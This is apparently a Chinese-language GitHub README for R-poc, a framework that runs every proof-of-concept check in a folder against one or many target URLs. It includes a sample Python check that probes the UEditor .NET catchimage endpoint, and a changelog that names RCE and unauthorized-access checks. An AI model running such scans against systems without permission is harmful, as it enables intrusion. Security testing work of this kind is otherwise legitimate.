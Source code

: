 # R-poc

一款用于快速验证漏洞的简易框架

基于Airpoc，对其进行了微小改动

原项目文章：https://paper.seebug.org/913/

支持单/多目标

暴力执行pocs目录下的所有poc对目标进行测试

# usage：

vulscan.py http://www.xxx.com

vulscan.py target.txt(目标文件放置于target目录下)

有关文章：https://www.freebuf.com/sectool/267793.html

![](https://github.com/hackerhackrat/R-poc/blob/main/img/R-poc1.png)

# 如何编写poc？

以下为ueditor.net漏洞的poc

`#!/usr/bin/env python
#coding=utf-8
import requests
from report.report import save
pocname = "ueditor-net"
headers = {'Content-Type': 'application/x-www-form-urlencoded','User_Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36'}
def verify(arg, **kwargs):
	exploit = "/ueditor/net/controller.ashx?action=catchimage"
	try:
		r = requests.get(url=arg+exploit,headers=headers)
		if '参数错误：没有指定抓取源' in r.text:
			save(arg,pocname,exploit)
			return {"url": arg, "poc-name":pocname, "exploit": exploit}
	except Exception as e:
		pass`

poc都要引用report目录下的report文件的save函数

需要提供三个参数:arg,pocname,exploit

# 更新

2021.4.17 update requirements.txt;

update poc:eyou-rce-2021,Druid-unauth,Spring-unauth，Resin

2021.4.18 updata NginxCVE-2017-7529,shiro_key

NginxCVE-2017-7529和shiro_key进行自动判断，减少误报率

感谢各位师傅的支持，鄙人QQ:3382340265
